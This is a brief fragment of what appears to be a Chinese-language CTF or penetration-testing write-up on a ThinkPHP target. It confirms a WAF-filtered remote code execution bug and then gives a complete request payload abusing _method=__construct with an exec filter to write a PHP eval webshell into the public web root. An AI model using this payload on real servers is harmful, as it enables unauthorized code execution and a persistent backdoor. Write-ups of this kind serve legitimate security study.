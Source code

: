 ![26-4.png](26-4.png)

有回显, 确认 RCE 存在, 说明之前的指令是被 WAF 挡了;

注意到这里: `vars[1][]` = `8` 时回显:

![26-5.png](26-5.png)

考虑传一个 webshell, 试试 exec 有没有被挡:

payload:

```
_method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo '<?php eval($_POST['shell']);?>' > /var/www/public/shell.php
```

> 注意, Think PHP MVC 架构下 public 目录就是网站根目录路由;
